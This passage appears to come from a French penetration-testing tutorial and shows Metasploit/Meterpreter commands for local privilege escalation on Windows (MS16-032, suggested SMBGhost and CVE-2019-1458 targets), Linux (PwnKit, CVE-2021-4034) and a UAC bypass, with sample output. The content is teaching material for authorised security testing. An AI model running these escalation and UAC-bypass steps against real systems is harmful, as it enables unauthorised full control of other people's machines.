 ```
# Identification des opportunités d'élévation
meterpreter > run post/multi/recon/local_exploit_suggester

# Exploitation d'une vulnérabilité locale
meterpreter > background
msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit

# Vérification des privilèges obtenus
meterpreter > getuid
```

Exemple de sortie de `local_exploit_suggester` :
```
[*] 192.168.1.100 - Collecting local exploits for x64/windows...
[*] 192.168.1.100 - 40 exploit checks are being tried...
[+] 192.168.1.100 - exploit/windows/local/cve_2020_0796_smbghost: The target appears to be vulnerable.
[+] 192.168.1.100 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
```

### Techniques d'élévation de privilèges Linux

```
# Identification des opportunités d'élévation
meterpreter > run post/multi/recon/local_exploit_suggester

# Exploitation d'une vulnérabilité locale
meterpreter > background
msf6 > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 1
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit

# Vérification des privilèges obtenus
meterpreter > getuid
```

### Bypass UAC (User Account Control)

```
# Contournement de l'UAC
meterpreter > background
msf6 > use exploit/windows/local/bypassuac_injection
msf6 exploit(windows/local/bypassuac_injection) > set SESSION 1
msf6 exploit(windows/local/bypassuac_injection) > exploit

# Vérification du contournement
meterpreter > getprivs
```

> **POURQUOI ?**  
> Le contournement de l'UAC est souvent nécessaire même lorsque vous disposez d'un compte administrateur, car l'UAC limite les privilèges par défaut. Les techniques de bypass UAC permettent d'obtenir un contexte d'exécution avec tous les privilèges administratifs sans déclencher de prompt de confirmation.
